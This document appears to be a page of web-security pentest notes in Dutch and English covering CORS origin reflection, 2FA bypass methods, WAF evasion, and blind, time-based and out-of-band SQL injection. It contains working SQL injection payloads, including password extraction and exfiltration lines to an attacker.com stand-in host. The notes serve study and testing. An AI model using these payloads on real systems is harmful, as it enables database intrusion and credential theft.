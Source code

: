 **Reflection zonder Validatie:**
- Server reflecteert Origin header zonder check
- Arbitrary origin access

### Authentication Bypass Technieken

**2FA Bypass Methods:**

**Direct Navigation:**
- Login → 2FA page → Navigate direct naar dashboard
- Missing server-side validation

**Response Manipulation:**
- Modify response "2fa_required": false
- Client-side check only

**Code Reuse:**
- 2FA codes niet geïnvalideerd na gebruik
- Rate limiting ontbreekt

**Session Fixation:**
- Session token gegenereerd voor 2FA check
- Reuse token na failed 2FA

### SQL Injection - Advanced

**Second Order SQLi:**
- Payload opgeslagen in stap 1
- Exploitatie in stap 2
- Timing maakt detectie moeilijk

**Boolean-Based Blind:**
```sql
' AND 1=1-- (True response)
' AND 1=2-- (False response)
```
- Extractie via binary search
- Character-by-character exfiltration

**Time-Based Blind:**
```sql
' AND IF(1=1, SLEEP(5), 0)--
' AND IF(SUBSTRING(password,1,1)='a', SLEEP(5), 0)--
```

**Out-of-Band (OOB):**
```sql
'; EXEC xp_dirtree '\\attacker.com\share'--
'; SELECT LOAD_FILE(CONCAT('\\\\',password,'.attacker.com\\'))--
```

**WAF Bypass Technieken:**
- Case manipulation: SeLeCt
- Comments: SE/**/LECT
- Encoding: %53%45%4C%45%43%54
- Alternative syntax: UNION SELECT vs UNION ALL SELECT

---
